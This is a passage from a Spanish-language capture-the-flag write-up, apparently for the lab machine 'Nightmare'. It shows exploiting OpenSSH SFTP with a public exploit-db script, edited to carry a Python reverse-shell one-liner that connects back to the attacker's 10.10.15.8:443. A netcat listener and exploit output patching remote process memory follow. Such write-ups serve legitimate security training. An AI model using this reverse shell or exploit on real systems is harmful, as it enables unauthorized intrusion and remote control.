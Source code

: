 OpenSSH < 6.6 SFTP (x64) - Command Execution                                                                 | exploits/linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                                                                       | exploits/linux/remote/45001.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                       | exploits/unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Vamos a copiarlo en nuestra carpeta y modificar su contenido para obtener RCE sobre nuestra victima.  

{% highlight zsh %}
┌─[root@Kratos] - [/Ethic4l-Hacking/Operations/Premium/Nightmare] - [Thu Apr 25, 11:47]
└─[$]> # cp /usr/share/exploitdb/exploits/linux/remote/45001.py ./Exploit-SFTP.py 
{% endhighlight %}

## Obteniendo ejecuccion de codigo remoto por medio de un exploit

Editamos el siguiente fragmento del exploit para su funcionamiento correcto:  

{% highlight python %}
cmd = 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.8",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
host = '10.10.10.66'
port = 2222
username = 'ftpuser'
password = '@whereyougo?'
{% endhighlight %}

Nos ponemos a escuchar en el puerto 443, el cual fue indicado previamente en la shell reversa con python.  

{% highlight zsh %}
┌─[root@Kratos] - [/Ethic4l-Hacking/Operations/Premium/Nightmare] - [Thu Apr 25, 11:47]
└─[$]> # nc -nvlp 443
{% endhighlight %}

Para evitar cualquier error con relacion a la libreira "pown", se debe instalar con el comando **pip install pwn**.  
Sabiendo esto vamos a proceder con la ejecuccion de nuestro exploit.  

{% highlight zsh %}
┌─[root@Horus] - [/Prometheus/Ethic4l-Hacking/Operations/Premium/Nightmare] - [lun sep 09, 04:19]
└─[$]> python sftp-exploit.py 
[*] Analysing /proc/self/maps on remote system
[+] 32bit libc mapped @ f757a000-f772a000, path: /lib/i386-linux-gnu/libc-2.23.so
[+] Stack mapped @ ff803000-ff824000
[+] Fetching libc from remote system..

[*] '/datos/gerh/Escritorio/Prometheus/Ethic4l-Hacking/Operations/Premium/Nightmare/libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[+] system()  @ 0xf75b4da0
[+] 'ret' @ 0xf757a417
[+] We have r/w permissions for /proc/self/mem! All Good.
[*] Patching /proc/self/mem on the remote system
[+] Pushing new stack to 0xff803000.. fingers crossed ;))

{% endhighlight %}